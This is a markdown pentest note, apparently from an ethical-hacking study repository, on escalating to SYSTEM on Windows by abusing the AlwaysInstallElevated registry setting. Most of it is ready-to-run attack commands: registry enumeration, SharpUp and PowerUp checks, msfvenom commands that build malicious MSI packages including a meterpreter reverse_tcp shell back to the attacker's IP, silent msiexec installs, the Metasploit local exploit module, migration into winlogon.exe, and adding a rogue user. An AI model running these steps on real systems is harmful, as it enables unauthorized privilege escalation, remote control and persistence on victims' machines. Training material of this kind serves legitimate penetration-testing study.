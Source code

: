 # AlwaysInstallElevated Exploitation

## Target requirements

- The target needs to have those values in the registry: 
  - In `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer` with the AlwaysInstallElevated set to 1
  - In `Computer\HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer` with the AlwaysInstallElevated set to 1
This means that installation packages are installed with elevated privileges 

### Enumerate with cmd

- Type `reg query HKLM\Software\Policies\Microsoft\Windows\Installer` in a cmd prompt should be set to 1
- Type `reg query HKCU\Software\Policies\Microsoft\Windows\Installer` should be one as well  
![image](https://user-images.githubusercontent.com/96747355/162576171-430c4e05-d1be-42c4-a840-d844a87cb99e.png)  

## Exploitation

- You should have a shell with covenant or metasploit or netcat.  
We will use Covenant and Metasploit here.

### Covenant

#### Enumerate with SharpUp audit

- In your shell type `SharpUp audit`
- In the results you should see this:
  ```
  === AlwaysInstallElevated Registry Keys ===

    HKLM:    1
    HKCU:    1
  ```

#### Enumerate with powerup

- In the shell we will type PowerShellImport, type enter and fetch PoweUp.ps1 (if you do not have it you can get it [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) )  
- Click on execute
- Type `powershell invoke-allchecks` in your shell
- We should see this
  ```
  [*] Checking for AlwaysInstallElevated registry key...
  AbuseFunction : Write-UserAddMSI

  ```

#### Exploitation

- generate a payload with msfvenom `msfvenom -p windows/exec CMD="" -f msi -o exploitalwaysinstalled.msi` between the quotes put copy and paste an encoded launcher.
- Upload your file in the target using Upload command from covenant (type `Upload` and enter, file the file path for the target and browse to the file in your attack machine)
- run it using `shell msiexec /quiet /qn /i exploitalwaysinstalled.msi
- We should get a prompt for another reverse shell in our grunts as an elevated user
  ```
  > whoami
  NT AUTHORITY\SYSTEM
  ```

#### Exploitation with powerup

- `powershell -ep bypass`
- `. .\PowerUp.ps1`
- `Write-UserAddMSI`
- It will set up a malicious MSI called `UserAdd`
- And we will be able to add a user  
![image](https://user-images.githubusercontent.com/96747355/162576431-66e49563-26cd-45fc-a673-63e9f0a42561.png)
- Our user has been added  
![image](https://user-images.githubusercontent.com/96747355/162576458-7498d8e5-bfc7-4dba-9b5c-9a73ac869622.png)  


### Metasploit

- Interact with a session you should already have from initial foothold `sessions -i num-of-session`

#### Enumerate

- Launch `run post/multi/recon/local_exploit_suggester`
- You should see: `- exploit/windows/local/always_install_elevated: The target is vulnerable.`

#### Exploitation

- Background your session with ctrl z
- Type `use exploit/windows/local/always_install_elevated`
- set session to the number of the session you have on your target 
- type `exploit -j`
- list the sessions you should have another one running as authority system
- type ps and look for a process under session 1 so that we can migrate to it 
- We can use winlogon.exe ` 620   520   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe`
- Migrate to it using `migrate PID-number` in our example it is going to be `migrate 520`  

**OR**  

- `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost your-Kali-IP`
- `run`
- In another console tab `msfvenom -p windows/meterpreter/reverse_tcp lhost=Your-Kali-IP -f msi -o setup.msi`
- Get the generated msi in your target (python server -> browser from target)
- In your target Place `setup.msi` in a folder where you have write access
- Open command prompt and type: `msiexec /quiet /qn /i C:\Folder\you\chose\setup.msi`
- You should get an elevated shell in msfconsole  
![image](https://user-images.githubusercontent.com/96747355/162576948-dfc37754-0345-408f-a344-5248975f34b8.png)  


## Resources

{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker {% endembed %}
